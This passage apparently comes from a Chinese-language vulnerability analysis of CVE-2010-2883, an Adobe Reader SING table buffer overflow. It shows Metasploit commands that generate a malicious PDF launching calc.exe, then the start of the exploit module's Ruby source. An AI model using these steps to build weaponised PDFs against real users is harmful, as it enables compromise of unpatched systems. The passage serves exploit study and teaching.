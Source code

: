 ```plaintext
Payload information:
  Space: 1000
  Avoid: 1 characters

Description:
  This module exploits a vulnerability in the Smart INdependent Glyplets (SING) table
  handling within versions 8.2.4 and 9.3.4 of Adobe Reader. Prior versions are
  assumed to be vulnerable as well.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2010-2883
  OSVDB (67849)
  http://contagiodump.blogspot.com/2010/09/cve-david-leadbetters-one-point-lesson.html
  http://www.adobe.com/support/security/advisories/apsa10-02.html


View the full module info with the info -d command.
```

使用该模块生成木马 PDF 文件

```sh
msf6  exploit(adobe_cooltype_sing) > set FILENAME Crash.pdf
msf6  exploit(adobe_cooltype_sing) > set payload windows/exec
msf6  exploit(adobe_cooltype_sing) > set CMD calc.exe
msf6  exploit(adobe_cooltype_sing) > exploit
```

## Exploit 分析

### Exploit 代码概览

该模块的 exp 位于

```plaintext
/usr/share/metasploit-framework/modules/exploits/windows/fileformat/adobe_cooltype_sing.rb
```

让我们来看看这个 exp 是如何进行漏洞利用的

```ruby
require 'msf/core'
require 'zlib'

class Metasploit3 < Msf::Exploit::Remote
    Rank = GreatRanking # aslr+dep bypass, js heap spray, rop, stack bof

    include Msf::Exploit::FILEFORMAT

    #* 初始化函数，注明了 exp 的模块信息
    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow',
            'Description'    => %q{...},
            'License'        => MSF_LICENSE,
            'Author'         => ...,
            'Version'        => '$Revision: 10477 $',
            'References'     => ...,
            'DefaultOptions' => ...,
            'Payload'        => ...,
            'Platform'       => 'win',
            'Targets'        => ...,
            'DisclosureDate' => 'Sep 07 2010',
            'DefaultTarget'  => 0)
        )

```